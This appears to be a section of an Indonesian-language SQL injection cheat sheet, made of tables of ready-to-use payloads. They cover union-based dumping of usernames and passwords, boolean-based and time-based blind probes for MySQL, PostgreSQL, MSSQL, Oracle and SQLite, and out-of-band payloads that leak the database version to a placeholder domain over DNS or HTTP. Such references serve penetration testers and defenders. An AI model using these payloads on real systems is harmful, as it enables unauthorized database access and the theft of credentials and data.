 #### ii. Union-based SQLi

| Deskripsi            | Payload                                                |
| -------------------- | ------------------------------------------------------ |
| Mencari Jumlah Kolom | `' ORDER BY 1--` _(lanjutkan 2, 3, dst. hingga error)_ |
| Ekstraksi Data       | `' UNION SELECT username, password FROM users --`      |

---

### b. Inferential SQLi (Blind SQLi)

#### i. Boolean-Based Blind

| Deskripsi                          | Payload                                                          |
| ---------------------------------- | ---------------------------------------------------------------- |
| Mengecek karakter pertama versi DB | `' AND (SELECT SUBSTRING(version(),1,1)) = '5' --`               |
| Mengecek panjang nama database     | `' AND (SELECT LENGTH(database())) > 10 --` _(MySQL/PostgreSQL)_ |

#### ii. Time-Based Blind

| Deskripsi                      | Payload                                                                                         |
| ------------------------------ | ----------------------------------------------------------------------------------------------- |
| Delay jika benar (MySQL)       | `' AND IF(SUBSTRING(user(),1,1)='d', SLEEP(5), 0) --`                                           |
| Query delay murni (MySQL)      | `SELECT SLEEP(5);`                                                                              |
| Delay jika benar (PostgreSQL)  | `' AND (SELECT CASE WHEN (SUBSTRING(user(),1,1)='p') THEN pg_sleep(5) ELSE pg_sleep(0) END) --` |
| Query delay murni (PostgreSQL) | `SELECT pg_sleep(5);`                                                                           |
| Delay jika benar (MSSQL)       | `; IF (SUBSTRING(DB_NAME(),1,1)='m') WAITFOR DELAY '0:0:5' --`                                  |
| Query delay murni (MSSQL)      | `WAITFOR DELAY '0:0:5';`                                                                        |
| Delay jika benar (Oracle)      | `' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5) --`                                                   |
| Query delay murni (Oracle)     | `BEGIN DBMS_PIPE.RECEIVE_MESSAGE('a',5); END;`                                                  |
| Delay jika benar (SQLite)      | `' AND 1=LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000)))) --`                                      |
| Query delay murni (SQLite)     | `SELECT LIKE('ABC',UPPER(HEX(RANDOMBLOB(100000000))));`                                         |

---

### c. Out-of-Band (OOB) SQLi

| Deskripsi                  | Payload                                                                                |
| -------------------------- | -------------------------------------------------------------------------------------- |
| DNS Lookup (Windows/MySQL) | `' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT version()),'.nama-domain.com\\a')) --` |
| HTTP Request (Oracle)      | `' AND UTL_HTTP.REQUEST('http://...')`                                                 |
| HTTP Request (MSSQL)       | `; EXEC master..xp_dirtree '\\nama-domain.com\test'; --`                               |

---